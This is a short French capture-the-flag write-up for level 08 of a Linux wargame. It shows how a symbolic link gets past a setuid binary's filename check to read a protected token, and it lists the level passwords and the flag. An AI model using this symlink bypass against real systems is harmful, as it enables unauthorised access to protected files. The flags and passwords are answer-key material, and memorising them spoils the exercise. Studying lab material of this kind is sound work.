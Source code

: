# level 08

### ![#409EFF](https://via.placeholder.com/15/409EFF/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Password`
```
fiumuikeil55xe9cu4dood66h
```

### ![#E6A23C](https://via.placeholder.com/15/E6A23C/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ ‎‏‏‎Exploit`

Deux fichiers, level08 et token

level08 attend un fichier en paramètre, mais (via ltrace) on remarque que level08 check si on a les droits pour lire le fichier.

On crée un lien symbolique pour trick la vérification
```cmd
ln -s ~/token /tmp/wow
./level08 /tmp/wow
```
On récupère le flag
`quif5eloekouj29ke0vouxean`


```cmd
su flag08 quif5eloekouj29ke0vouxean
getflag
```

### ![#67C23A](https://via.placeholder.com/15/67C23A/000000?text=+) `‎‎‎‎‎‎‎‏‏‎ Flag`
```
25749xKZ8L7DkSCwJkT9dyv6f
```